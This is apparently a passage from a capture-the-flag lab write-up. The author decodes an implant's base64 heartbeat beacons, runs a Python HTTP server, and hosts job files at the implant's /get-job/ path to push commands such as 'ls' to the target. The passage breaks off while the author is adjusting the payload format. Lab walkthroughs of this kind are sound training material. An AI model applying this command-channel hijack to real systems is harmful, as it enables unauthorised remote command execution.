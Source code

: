 decode the b64

```json
{"time": "2023-08-02T21:12:02.089477", "systeminfo": {"os": "Linux", "hostname": "forgottenimplant"}, "latest_jo_id": 0, "cmd": "whoami"}, "success": false}
```

http. so we need a server

```bash
┌──(user㉿kali-linux-2022-2)-[~]
└─$ python -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.10.115.84 - - [02/Aug/2023 17:16:02] code 404, message File not found
10.10.115.84 - - [02/Aug/2023 17:16:02] "GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDJUMjE6MTY6MDEuNzk2NjQ5IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1" 404 -
10.10.115.84 - - [02/Aug/2023 17:16:03] code 404, message File not found
10.10.115.84 - - [02/Aug/2023 17:16:03] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 404 -
10.10.115.84 - - [02/Aug/2023 17:17:01] code 404, message File not found
10.10.115.84 - - [02/Aug/2023 17:17:01] "GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDJUMjE6MTc6MDEuNjUwODk3IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1" 404 -                                            
10.10.115.84 - - [02/Aug/2023 17:17:03] code 404, message File not found                                        
10.10.115.84 - - [02/Aug/2023 17:17:03] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 404 -
```

We see calls coming in for heartbeat and get-job. 

# Foothold

Host a file at `/get-job/ImxhdGVzdCI=` to send jobs. 

```bash
┌──(user㉿kali-linux-2022-2)-[~]
└─$ mkdir get-job

┌──(user㉿kali-linux-2022-2)-[~]
└─$ echo 'ls' > get-job/ImxhdGVzdCI=
```

```bash
10.10.115.84 - - [02/Aug/2023 17:31:02] "GET /job-result/eyJzdWNjZXNzIjogZmFsc2UsICJyZXN1bHQiOiAiRW5jb2RpbmcgZXJyb3IifQ==
```

now we get `{"success": false, "result": "Encoding error"}`

OK, so it wants b64

`echo 'ls' | base64 > get-job/ImxhdGVzdCI=`

`{"success": false, "result": "JSON error"}`

Let’s try the JSON format we received in the heartbeat message. Submitting
